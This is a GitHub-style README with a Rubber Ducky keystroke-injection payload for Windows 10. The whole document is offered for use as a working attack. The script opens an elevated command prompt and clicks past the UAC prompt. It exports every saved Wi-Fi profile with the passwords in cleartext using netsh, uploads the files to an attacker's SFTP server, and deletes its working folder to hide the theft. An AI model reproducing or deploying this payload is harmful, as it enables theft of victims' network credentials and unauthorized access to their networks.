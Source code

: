 ## Change the following things;
* **SFTPpass** : Your **Sftp password**
* **SFTPusername** : Your **sftp username**
* **SFTPserver** : Your **sftp server address**


## Succesfully tested on;
* Windows 10

## Info;
* Author : lucagrosshennig
* Duckncoder : 1.2 
* Target : Windows 10 Machines 
* my Webseite : [lucagrosshennig.club](lucagrosshennig.club) 
* my github : [github.com/lucagrosshennig](github.com/lucagrosshennig) 
* Description : Connect to sftp server and uploads WLAN passwords 

```
DELAY 500
GUI r
DELAY 300
STRING cmd 
DELAY 300
CTRL-SHIFT ENTER
DELAY 300
LEFTARROW
DELAY 100
ENTER 
DELAY 300
STRING cd C:\
ENTER
DELAY 100
STRING md l 
ENTER
DELAY 100
STRING cd l && @netsh wlan export profile key=clear >nul
ENTER
DELAY 1000
STRING sftp -oPort=22 **SFTPusername**@**SFTPserver**
ENTER
DELAY 1200
STRING **SFTPpassword**
DELAY 70
ENTER
DELAY 500
STRING cd wlan
ENTER
DELAY 50
STRING mput C:\l\*.xml
ENTER
DELAY 3000
STRING bye
ENTER
DELAY 200
STRING cd ..
ENTER 
DELAY 50
STRING del "C:\l"
ENTER
DELAY 50
STRING j
ENTER
STRING exit
ENTER
```